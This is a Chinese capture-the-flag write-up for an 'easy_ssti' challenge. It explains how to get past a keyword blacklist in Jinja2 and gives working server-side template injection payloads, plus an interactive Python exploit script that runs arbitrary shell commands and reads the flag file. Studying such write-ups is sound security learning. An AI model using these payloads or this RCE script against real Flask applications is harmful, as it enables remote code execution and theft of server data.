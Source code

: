 ## Hard | easy_ssti | Author: CrzZ

和baby_ssti差不多，就是多过滤了点东西。

```python
['{{','}}','__',' ','url_for','request','config']
```

需要熟悉一下jinja2模板引擎，可以直接去官网阅读[document](https://jinja.palletsprojects.com/en/2.11.x/templates/)

熟悉完之后，发现虽然`{{code}}`被过滤了，但是我们还可以用`{%code%}`来绕过

`url_for`、`request`、`config`都被ban了，看过下面这篇东西的人应该能很容易想到用基本数据类型的继承关系来实现RCE，接下来就是绕过的问题了。

![image-20201129214631128.png](https://i.loli.net/2020/11/29/id8NfFo6OyLUqR5.png)

熟读了jinja2的document和上面的pdf之后，很容易就构造出了下面这条payload

```jinja2
{%for(x)in(()['\x5f\x5fclass\x5f\x5f']['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']())%}
{%if(x['\x5f\x5fname\x5f\x5f']=='Codec')%}
{%for(c)in(x.decode['\x5f\x5fglobals\x5f\x5f']['builtins']['\x5f\x5fimport\x5f\x5f']('os').popen('whoami').read().encode())%}
{%for(i)in(range(c))%}
@
{%endfor%}
$
{%endfor%}
{%endif%}
{%endfor%}
```

- `@`的数量来表示是哪个字符
- `$`用作分割符

然后写一下exp跑一跑，flag就出来了

```python
import requests
from urllib.parse import quote


url = "http://111.231.101.223:32769/"
while True:
    shell = input("shell>").encode() # 输入shell指令
    shell = ''.join(list(map(lambda x: '\\x' + hex(x)[2:], list(shell)))) # 十六进制编码绕过
    payload = f'''
    {{%for(x)in(()['\\x5f\\x5fclass\\x5f\\x5f']['\\x5f\\x5fclass\\x5f\\x5f']['\\x5f\\x5fbase\\x5f\\x5f']['\\x5f\\x5fsubclasses\\x5f\\x5f']())%}}
    {{%if(x['\\x5f\\x5fname\\x5f\\x5f']=='Codec')%}}
    {{%for(c)in(x.decode['\\x5f\\x5fglobals\\x5f\\x5f']['builtins']['\\x5f\\x5fimport\\x5f\\x5f']('os').popen('{shell}').read().encode())%}}
    {{%for(i)in(range(c))%}}
    @
    {{%endfor%}}
    $
    {{%endfor%}}
    {{%endif%}}
    {{%endfor%}}
    '''
    payload = quote(payload.replace(' ', '')) # 去除多余的空格并进行urlencode
    res = requests.get(url+payload)
    results = res.text.split('$') # 字符串分割
    for result in results:
        count = 0
        for c in result:
            if c == '@':
                count += 1 # 计数算出字符
        if count == 0:
            continue
        print(chr(count), end='')
    print()
```

但是，因为过滤得不严格，可以用`{%print()%}`，所以我们可以直接一条payload把flag打印出来

```jinja2
{%-for(x)in(()['\x5f\x5fclass\x5f\x5f']['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']())-%}
{%-if(x['\x5f\x5fname\x5f\x5f']=='Codec')-%}
{%-print(x.decode['\x5f\x5fglobals\x5f\x5f']['builtins']['open']('flag').read())-%}
{%-endif-%}
{%-endfor-%}
```

urlencode之后就是

```
%7B%25-for(x)in(()%5B'%5Cx5f%5Cx5fclass%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fclass%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fbase%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fsubclasses%5Cx5f%5Cx5f'%5D())-%25%7D%0A%7B%25-if(x%5B'%5Cx5f%5Cx5fname%5Cx5f%5Cx5f'%5D%3D%3D'Codec')-%25%7D%0A%7B%25-print(x.decode%5B'%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f'%5D%5B'builtins'%5D%5B'open'%5D('flag').read())-%25%7D%0A%7B%25-endif-%25%7D%0A%7B%25-endfor-%25%7D
```

所以最终的url就是：

```
http://111.231.101.223:32769/%7B%25-for(x)in(()%5B'%5Cx5f%5Cx5fclass%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fclass%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fbase%5Cx5f%5Cx5f'%5D%5B'%5Cx5f%5Cx5fsubclasses%5Cx5f%5Cx5f'%5D())-%25%7D%0A%7B%25-if(x%5B'%5Cx5f%5Cx5fname%5Cx5f%5Cx5f'%5D%3D%3D'Codec')-%25%7D%0A%7B%25-print(x.decode%5B'%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f'%5D%5B'builtins'%5D%5B'open'%5D('flag').read())-%25%7D%0A%7B%25-endif-%25%7D%0A%7B%25-endfor-%25%7D
```

> `Kap0k{Y0u_4r3_600d_4t_P7th0n~}`

所以说这题熟悉了jinja2之后是真的简单（x